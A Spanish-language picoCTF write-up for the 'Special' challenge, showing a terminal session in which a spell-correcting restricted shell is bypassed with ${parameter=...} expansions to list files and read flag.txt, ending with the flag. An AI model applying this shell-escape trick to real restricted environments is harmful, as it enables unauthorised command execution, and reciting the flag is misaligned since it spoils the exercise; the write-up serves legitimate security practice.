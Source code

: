 ## Special

¿Los usuarios avanzados no se cansan de cometer errores ortográficos en el shell? ¡Ya no! Presentamos Special, la interfaz de corrección ortográfica para Linux. Ahora, cada palabra está escrita y capitalizada correctamente... ¡automáticamente y en segundo plano! Sea el primero en probar Special en versión beta y no dude en contarnos todo sobre cómo Special agiliza cada proceso de desarrollo al que se enfrenta. Cuando sus compañeros de trabajo vean su increíble interfaz de shell, dígales: Eso es Special (TM)Inicie su instancia para ver los detalles de la conexión.`ssh -p 55436 ctf-player@saturn.picoctf.net`La contraseña es`3f39b042`

Hints:
1. Experimente con diferentes sintaxis de shell


## Solución:

```

grbau21-picoctf@webshell:~$ ssh -p 55436 ctf-player@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:55436 ([13.59.203.175]:55436)' can't be established.
ED25519 key fingerprint is SHA256:tJ0wuU5yBvNO/FrkHmR9iY36VJClMhKV+Hq2sxqKFmg.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:10: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:55436' (ED25519) to the list of known hosts.
ctf-player@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Special$ ls
Is 
sh: 1: Is: not found
Special$ whoami
Whom 
sh: 1: Whom: not found
Special$ pwd
Pod 
sh: 1: Pod: not found
Special$ cat
Cat 
sh: 1: Cat: not found

--Usando esto
Special$ ${parameter=ls}
${parameter=ls} 
blargh
Special$ ${parameter=cd blargh}
${parameter=cd blargh} 
Special$ ${parameter=ls blargh}
${parameter=ls blargh} 
flag.txt
Special$ ${parameter=cat < blargh/flag.txt}
${parameter=cat < blargh/flag.txt} 
cat: '<': No such file or directory
picoCTF{5p311ch3ck_15_7h3_w0r57_f906e25a}Special$


picoCTF{5p311ch3ck_15_7h3_w0r57_f906e25a}

```
